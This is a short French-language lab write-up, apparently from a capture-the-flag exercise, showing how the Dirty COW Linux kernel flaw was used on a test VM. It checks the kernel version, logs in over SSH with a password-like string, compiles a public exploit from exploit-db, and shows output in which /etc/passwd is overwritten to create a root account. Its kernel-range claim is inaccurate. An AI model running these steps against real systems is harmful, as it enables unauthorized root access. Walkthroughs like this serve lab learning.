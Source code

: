 # Dirty COW
## Introduction
Dirty COW est le nom donné faille de sécurité du noyau Linux. Elle va nous permettre une élévation de privilèges avec l'exécution d'un simple programme C.

## Compatibilité
Cette faille n'est exploitable qu'avec une version du noyau comprise entre 2.6.22 et 3.9. On vérifie notre version du noyau :
```
> uname -r
3.2.0-91-generic-pae
```
Notre VM est compatible avec cette faille.

## Récupération et exécution du code
La faille étant assez connue, il est possible de récuperer facilement le code à exécuter. Nous avons récupéré [celui ci](https://www.exploit-db.com/exploits/40839).

On se connecte en ssh à la VM. Tous les utilisateurs dans le sujets sont compatibles avec la faille.
```
> ssh -p 22 zaz@192.168.99.102
646da671ca01bb5d84dbb5fb2238dc8e
```
On créer un fichier `exploit.c` qui contient le code récupéré préalablement. On compile avec `gcc`. Certains flags sont necessaires :
```
gcc exploit.c -lpthread -lcrypt
```
En exécutant le `a.out` :
```
> ./a/out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiGIOrsN6mdSc:0:0:pwned:/root:/bin/bash

mmap: b7fda000
```
Un `whoami` nous affichera l'utilisateur `firefart`. Son `id` est bien `0`, nous somme donc passé `root`.
```
> whoami
firefart
> id
uid=0(firefart) gid=0(root) groups=0(root)
```
